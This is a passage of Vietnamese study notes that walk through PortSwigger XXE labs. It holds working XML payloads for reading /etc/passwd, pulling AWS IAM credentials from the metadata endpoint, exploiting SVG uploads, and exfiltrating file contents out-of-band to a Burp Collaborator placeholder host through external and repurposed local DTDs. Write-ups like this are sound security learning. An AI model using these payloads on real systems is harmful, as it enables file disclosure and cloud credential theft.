    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
    


trả về thư mục tiếp theo. Tương tự như vậy ta tìm được các đường dẫn

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>`

⇒ kết quả: server trả về dữ liệu JSON chứa SecretAccessKey:


## **3. Lab: Exploiting XInclude to retrieve files**

- Web có tính năng **"Check stock"**, khi gửi dữ liệu, server sẽ nhúng input của bạn vào một XML template rồi parse nó.
- Trong bài này, ta không thể sửa tài liệu xml vì client chỉ được phép gửi input vào giá trị của productId và storeId, sau đó server sẽ nhúng input đó vào một XML template ( tức là một from XMl đã tạo sẵn chỉ để điền Id vào thôi) rồi parse ( phân tích cú pháp) xml đó


- Vì bạn không thể thêm `DOCTYPE`, ta dùng **XInclude** (là một phần của XML standard) để "kéo" nội dung từ file hệ thống vào XML. XInclude là một tính năng của XML cho phép nhét một đoạn chỉ thị vào bên trong nội dung của một thẻ XMl
- Payload:
    
    `<foo xmlns:xi="[http://www.w3.org/2001/XInclude](http://www.w3.org/2001/XInclude)">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>`
    

trong đó: `xmlns:xi="[http://www.w3.org/2001/XInclude](http://www.w3.org/2001/XInclude)"` là phần khai báo namespace để có thể dùng được cú pháp XInclude

- `xmlns` = XML Namespace (khai báo không gian tên).
- `xi` = tên viết tắt (prefix) để bạn dùng khi gọi XInclude.
- `"http://www.w3.org/2001/XInclude"` = đường dẫn định danh chuẩn của XInclude do W3C định nghĩa.
- Khi parser thấy prefix `xi:` thì nó biết phải xử lý theo chuẩn XInclude.
- `<xi:include ...>` → Yêu cầu parser chèn nội dung từ một tài nguyên ngoài vào đây.
- `parse="text"`  đọc file dưới dạng text thuần vì /etc/passwd không phải XMl mà là dạng text thuần , nếu parse cố gắng parse như xml thì nó sẽ báo lỗi
- `href="file:///etc/passwd"/`  đường dẫn file muốn lấy


kết quả hiện một thông báo lỗi invalid producId và in ra nội dung của file 

- Hoặc có thể rút gọn payload như sau
    
    `<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" parse="text" href="file:///etc/passwd"/>`
    

## **4. Lab: Exploiting XXE via image file upload**

- bài lab cho phép post avata ở phần comment, sử dụng thư viện Apache Batik để đọc và hiển thị ảnh và nó không tắt tính năng external entity
    
    → lỗ hổng xxe file upload
    
- Apache Batik hỗ trợ **SVG** (Scalable Vector Graphics), mà SVG là **XML-based format**.
- Nếu ta upload một file `.svg` chứa **payload XXE**, Batik sẽ parse nó và thay entity bằng nội dung file trên server.
- Payload
    
    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [
    	<!ENTITY xxe SYSTEM "file:///etc/hostname">
    ]>
    <svg xmlns="http://www.w3.org/2000/svg" with="500" height="50">
    	<text font-size="40" x="10" y="50">&xxe;</text>
    </svg>
    ```
    
    thẻ <text> sẽ hiển thị nội dung của file lên trên ảnh 
    

kết quả 


## **5. Lab: Blind XXE with out-of-band interaction**

- Lab có tính năng “check stock” bằng cách gửi XMl lên server và nó không trả về thông báo lỗi
    
    ⇒ blind xxe injection 
    
- payload:


## **6. Lab: Blind XXE with out-of-band interaction via XML parameter entities**

- Bài lab này cũng là blind XXE OOB nhưng đã bị block external entity.
    
    Vì vậy ta phải dùng **parameter entity** (`%entityName`) — loại entity chỉ dùng trong DTD và thường dùng trong **XML parameterization**.
    
- **Parameter entity** là một loại **XML entity đặc biệt** mà bạn chỉ có thể định nghĩa và dùng **bên trong DTD** (Document Type Definition), chứ không thể chèn trực tiếp vào nội dung XML như entity thường.
Cú pháp khác biệt so với external entity bình thường:

| Loại entity | Ký hiệu khi định nghĩa | Ký hiệu khi sử dụng |
| --- | --- | --- |
| General entity | `<!ENTITY name "...">` | `&name;` |
| **Parameter entity** | `<!ENTITY % name "...">` | `%name;` |
- payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://rfaa6zf6084ds7o3d3ye1feh288ywn.burpcollaborator.net">
  %xxe;
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

### Giải thích:

- `<!ENTITY % xxe SYSTEM "...">`
    
    Đây là **parameter entity** (có dấu `%` trước tên), chỉ dùng bên trong DTD.
    
- `%xxe;`
    
    Khi parser đọc dòng này trong DTD, nó sẽ load nội dung của `xxe` từ URL mà mình cung cấp.
    
- Nhờ vậy, server sẽ gửi **DNS lookup + HTTP request** ra ngoài đến domain của Burp Collaborator.

## **7. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

- **Parameter entity** (`%xxe`) được dùng vì:
    - Một số hệ thống chặn external entity bình thường (`&entity;`), nhưng không chặn parameter entity (`%entity;`) dùng trong DTD.
    - Parameter entity được parse ở giai đoạn DTD parsing, trước khi parse XML content → thích hợp cho blind XXE.
- **DTD bên ngoài** (External DTD) là một file chứa **Định nghĩa Kiểu Tài liệu** (*Document Type Definition*) nhưng không được nhúng trực tiếp trong XML, mà được lưu ở một **địa chỉ bên ngoài** (có thể là một file trên web, FTP, hoặc file trong hệ thống).
- payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- Giải thích:
- `<!ENTITY % file SYSTEM "file:///etc/hostname">`
    
    Đọc nội dung file `/etc/hostname` của server vào entity `%file`.
    
- `<!ENTITY % eval "...">`
    
    Khai báo thêm một entity `%eval` chứa một lệnh khai báo entity khác `%exfil`.
    
    - Lưu ý: `&#x25;` là ký hiệu escape cho `%` trong XML, vì nếu để `%` trực tiếp ở đây parser sẽ parse ngay, không đợi `%eval;`.
- Lý do phải tạo thêm một entity `%eval`
    
    1. Vấn đề nếu tạo `%exfil` trực tiếp
    
    Nếu bạn viết thẳng:
    
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % exfil SYSTEM "file:///invalid/%file;">
    %exfil;
    ```
    
    Thì nhiều XML parser **sẽ không cho phép** bạn **dùng tham chiếu `%file;` bên trong một định nghĩa entity khác** trực tiếp.
    
    Nguyên nhân:
    
    - XML parser đọc DTD **theo thứ tự** và phân tích cú pháp sớm.
    - Khi parser thấy `%exfil` định nghĩa trực tiếp chứa `%file;`, nó có thể:
        - Không expand đúng thứ tự.
        - Hoặc chặn vì coi đó là “recursive entity reference” (vòng lặp).
    - Một số parser còn giới hạn: **chỉ được tham chiếu entity trong nội dung XML, không được nhúng trực tiếp trong SYSTEM identifier** của một entity khác.
    - 2. Cách “né” hạn chế này bằng `%eval`
    
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
    
    - `%eval` **chỉ là một entity text** chứa đoạn XML `<!ENTITY % exfil SYSTEM 'file:///invalid/%file;'>`.
    - Khi parser **expand `%eval;`**, nó sẽ chèn định nghĩa `%exfil` vào **lúc runtime**, sau khi `%file;` đã tồn tại và có giá trị.
    - Lúc này `%exfil` hợp lệ và parser có thể thực thi nó.
    
- `%eval;`
    
    Thực thi entity `%eval` → tạo ra `%exfil`.
    
- `%exfil;`
    
    Khi `%exfil` chạy, nó sẽ gọi HTTP request từ server mục tiêu đến `http://BURP-COLLABORATOR-SUBDOMAIN/?x=<nội dung file>`.
    
    - `<nội dung file>` chính là giá trị của `%file`.
    
    
    

→ Sau khi ấn “Store”, PortSwigger lưu file DTD độc hại của mình lên **exploit server** (một web server công khai mà họ cho sẵn).

- Trong payload XML gửi đến server mục tiêu, ta **không nhét toàn bộ DTD độc hại trực tiếp** mà chỉ đưa một entity:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
- Khi XML parser gặp `%xxe;`, nó sẽ **ra ngoài** tải file DTD này về, parse nội dung, và từ đó chạy lệnh đọc `/etc/hostname` + gửi dữ liệu ra Burp Collaborator.
    
    
    
- Kết quả:


## **8. Lab: Exploiting blind XXE to retrieve data via error messages**

- Website có chức năng **Check stock**: Khi bạn click vào nút "Check stock" hoặc gửi form, nó sẽ gửi **XML** lên server.
- XML này được server **parse** (phân tích) bằng một XML parser **có bật DTD processing**.
- Tuy nhiên:
    - Server **không hiển thị trực tiếp** kết quả XML parser trả về.
    - Nghĩa là mình **không thể thấy dữ liệu nhạy cảm trực tiếp** (như /etc/passwd) trong response.
    - Do đó, phải dùng **một kỹ thuật khác** để làm rò rỉ dữ liệu.
- Vì không nhận được dữ liệu trả về trực tiếp, ta **dùng lỗi** (error) của parser để làm lộ thông tin.
    - XML parser khi gặp `<!ENTITY>` với `system` URI mà có lỗi, nó có thể in lỗi ra màn hình hoặc log, bao gồm cả **nội dung dữ liệu** mà nó đang xử lý.
    - Ta sẽ **đặt một entity** sao cho parser **cố đọc file /etc/passwd** → chèn nội dung file vào tên của một entity khác → gây lỗi → nội dung file xuất hiện trong thông báo lỗi.
- **Vì sao phải dùng External DTD**
    - Trong XML gửi lên, ta **không thể nhét quá nhiều logic** vào DTD nội tuyến (internal DTD) nếu WAF hoặc server chặn.
    - Lab yêu cầu bạn dùng **exploit server** (cung cấp sẵn ở link khác domain) để **host file DTD độc hại**.
    - XML của bạn sẽ **gọi đến file DTD này** bằng `SYSTEM "URL"`.
- Payload gửi lên exploit server mà burp cung cấp
    
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
    
    - `%file` → đọc file `/etc/passwd`.
    - `%eval` → tạo entity `%exfil` với URL `'file:///invalid/<nội dung file>'`.
    - Lý do phải tạo thêm một entity `%eval`
        
        1. Vấn đề nếu tạo `%exfil` trực tiếp
        
        Nếu bạn viết thẳng:
        
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % exfil SYSTEM "file:///invalid/%file;">
        %exfil;
        ```
        
        Thì nhiều XML parser **sẽ không cho phép** bạn **dùng tham chiếu `%file;` bên trong một định nghĩa entity khác** trực tiếp.
        
        Nguyên nhân:
        
        - XML parser đọc DTD **theo thứ tự** và phân tích cú pháp sớm.
        - Khi parser thấy `%exfil` định nghĩa trực tiếp chứa `%file;`, nó có thể:
            - Không expand đúng thứ tự.
            - Hoặc chặn vì coi đó là “recursive entity reference” (vòng lặp).
        - Một số parser còn giới hạn: **chỉ được tham chiếu entity trong nội dung XML, không được nhúng trực tiếp trong SYSTEM identifier** của một entity khác.
        - 2. Cách “né” hạn chế này bằng `%eval`
        
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
        %eval;
        %exfil;
        ```
        
        - `%eval` **chỉ là một entity text** chứa đoạn XML `<!ENTITY % exfil SYSTEM 'file:///invalid/%file;'>`.
        - Khi parser **expand `%eval;`**, nó sẽ chèn định nghĩa `%exfil` vào **lúc runtime**, sau khi `%file;` đã tồn tại và có giá trị.
        - Lúc này `%exfil` hợp lệ và parser có thể thực thi nó.
        
    - `%exfil` → parser cố mở file này → lỗi → in cả path (kèm dữ liệu) vào error message
    
    
    
- Tiếp theo chặn request “check stock” rồi gửi xml
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/malicious.dtd"> %xxe;]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
    ```
    
    - Tạo entity `%xxe`  trỏ đến DTD độc hại trên exploit server
    - `%xxe;` → thực thi DTD độc hại.
    - Khi parser xử lý → DTD sẽ đọc `/etc/passwd` và gây lỗi.
    
    
    

Kết quả 


## **9. Lab: Exploiting XXE to retrieve data by repurposing a local DTD**

- Chức năng "Check stock" parse XML nhưng **không hiển thị kết quả** ⇒ muốn đọc `/etc/passwd` phải dùng **error-based exfiltration**.
- Trên server có sẵn một DTD cục bộ
    
    ```xml
    /usr/share/yelp/dtd/docbookx.dtd
    ```
    
- File này **có định nghĩa một parameter entity** tên là `ISOamso`. Tức là bên trong file docbookx.dtd có dạng như này
    
    ```xml
    <!-- ... các định nghĩa khác ... -->
    <!ENTITY % ISOamso PUBLIC
       "ISO 8879:1986//ENTITIES Added Math Symbols: Ordinary//EN//XML"
       "isoamso.ent">
    %ISOamso;
    <!-- ... -->
    ```
    
    khi expand file docbookx.dtd ra nó sẽ tự động gọi và chạy parameter entity `%ISOamso` 
    
- Ta sẽ **định nghĩa lại (override)** `%ISOamso` để chèn payload đọc `/etc/passwd`.
- Payload:
    
    ```xml
    <!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```
    
- Giải thích payload:
- `<!DOCTYPE message [`  khai báo DTD trong chính request XMl, `message` là tên root element (ở đây chỉ là placeholder).
- `<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`
    
    Tạo parameter entity `%local_dtd` trỏ tới **local DTD của hệ thống**. Đây là **external parameter entity** ⇒ khi expand, parser sẽ đọc file `/usr/share/yelp/dtd/docbookx.dtd`
    
- `<!ENTITY % ISOamso '
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
'>`
    - **Override `%ISOamso`** trước khi load local DTD.
    - Nội dung mới của `%ISOamso` là:
        1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
            
            → đọc nội dung `/etc/passwd` vào `%file`.
            
        2. `<!ENTITY % eval "...">`
            
            → tạo `%error` trỏ tới một file path giả: `file:///nonexistent/%file;`
            
            Khi parser cố mở file này, lỗi sẽ chứa nội dung `%file` ⇒ tức là `/etc/passwd`.
            
        3. `&#x25;eval;`
            
            → gọi `%eval;` để định nghĩa `%error`.
            
        4. `&#x25;error;`
            
            → gọi `%error;` để gây lỗi.
            
    
    Lưu ý:
    
    - `&#x25;` là ký hiệu để in ký tự `%` bên trong entity, tránh parser nhầm với cú pháp bên ngoài.
    - `&#x26;#x25;` là escaping kép để parser hiểu đúng ký tự `%` khi parse entity trong chuỗi.
- `%local_dtd;`
    - Load file `/usr/share/yelp/dtd/docbookx.dtd`.
    - File này sẽ **tham chiếu tới `%ISOamso`** ở đâu đó ⇒ lúc này nó sẽ lấy **bản override độc hại** của bạn thay vì định nghĩa gốc.
    - Khi `%ISOamso` được expand, tất cả các bước trong payload sẽ chạy ⇒ đọc file + gây lỗi.


kết quả: 


